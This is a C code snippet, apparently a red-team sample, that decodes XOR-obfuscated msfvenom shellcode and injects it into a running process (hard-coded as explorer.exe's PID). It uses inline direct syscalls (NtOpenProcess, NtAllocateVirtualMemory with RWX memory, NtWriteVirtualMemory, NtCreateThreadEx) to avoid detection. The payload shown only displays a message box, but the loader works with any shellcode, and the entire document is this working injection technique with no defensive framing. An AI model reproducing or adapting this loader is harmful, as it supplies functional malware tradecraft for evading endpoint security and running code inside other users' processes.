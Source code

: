 ```c
{
	jm::init_syscalls_list();

	// PID of explorer.exe
	DWORD pid = 4396;

	// msfvenom --payload windows/x64/messagebox TEXT="Hello there." EXITFUNC=thread -f c
	unsigned char shellcode[] = "\x9c\x28\xe1\x84\x90\x9f\x9f\x9f\x88\xb0\x60\x60\x60\x21\x31\x21\x30\x32\x31\x36\x28\x51\xb2\x05\x28\xeb\x32\x00\x5e\x28\xeb\x32\x78\x5e\x28\xeb\x32\x40\x5e\x28\xeb\x12\x30\x5e\x28\x6f\xd7\x2a\x2a\x2d\x51\xa9\x28\x51\xa0\xcc\x5c\x01\x1c\x62\x4c\x40\x21\xa1\xa9\x6d\x21\x61\xa1\x82\x8d\x32\x21\x31\x5e\x28\xeb\x32\x40\x5e\xeb\x22\x5c\x28\x61\xb0\x5e\xeb\xe0\xe8\x60\x60\x60\x28\xe5\xa0\x14\x0f\x28\x61\xb0\x30\x5e\xeb\x28\x78\x5e\x24\xeb\x20\x40\x29\x61\xb0\x83\x3c\x28\x9f\xa9\x5e\x21\xeb\x54\xe8\x28\x61\xb6\x2d\x51\xa9\x28\x51\xa0\xcc\x21\xa1\xa9\x6d\x21\x61\xa1\x58\x80\x15\x91\x5e\x2c\x63\x2c\x44\x68\x25\x59\xb1\x15\xb6\x38\x5e\x24\xeb\x20\x44\x29\x61\xb0\x06\x5e\x21\xeb\x6c\x28\x5e\x24\xeb\x20\x7c\x29\x61\xb0\x5e\x21\xeb\x64\xe8\x28\x61\xb0\x21\x38\x21\x38\x3e\x39\x3a\x21\x38\x21\x39\x21\x3a\x28\xe3\x8c\x40\x21\x32\x9f\x80\x38\x21\x39\x3a\x5e\x28\xeb\x72\x89\x29\x9f\x9f\x9f\x3d\x29\xa7\xa1\x60\x60\x60\x60\x5e\x28\xed\xf5\x7a\x61\x60\x60\x5e\x2c\xed\xe5\x47\x61\x60\x60\x28\x51\xa9\x21\xda\x25\xe3\x36\x67\x9f\xb5\xdb\x80\x7d\x4a\x6a\x21\xda\xc6\xf5\xdd\xfd\x9f\xb5\x28\xe3\xa4\x48\x5c\x66\x1c\x6a\xe0\x9b\x80\x15\x65\xdb\x27\x73\x12\x0f\x0a\x60\x39\x21\xe9\xba\x9f\xb5\x28\x05\x0c\x0c\x0f\x40\x14\x08\x05\x12\x05\x4e\x60\x2d\x05\x13\x13\x01\x07\x05\x22\x0f\x18\x60";
	SIZE_T shellcodeSize = sizeof(shellcode);

	// XOR-decrypt the shellcode
	char key = '`';
	for (int i = 0; i < sizeof(shellcode) - 1; i++) {
		shellcode[i] = shellcode[i] ^ key;
	}

	HANDLE hProcess;
	OBJECT_ATTRIBUTES objectAttributes = { sizeof(objectAttributes) };
	CLIENT_ID clientId = { (HANDLE)pid, NULL };
	INLINE_SYSCALL(NtOpenProcess)(&hProcess, PROCESS_ALL_ACCESS, &objectAttributes, &clientId);

	LPVOID baseAddress = NULL;
	INLINE_SYSCALL(NtAllocateVirtualMemory)(hProcess, &baseAddress, 0, &shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	INLINE_SYSCALL(NtWriteVirtualMemory)(hProcess, baseAddress, &shellcode, sizeof(shellcode), NULL);

	HANDLE hThread;
	INLINE_SYSCALL(NtCreateThreadEx)(&hThread, GENERIC_EXECUTE, NULL, hProcess, baseAddress, NULL, FALSE, 0, 0, 0, NULL);

	INLINE_SYSCALL(NtClose)(hProcess);
	INLINE_SYSCALL(NtClose)(hThread);

	return 0;
}
```
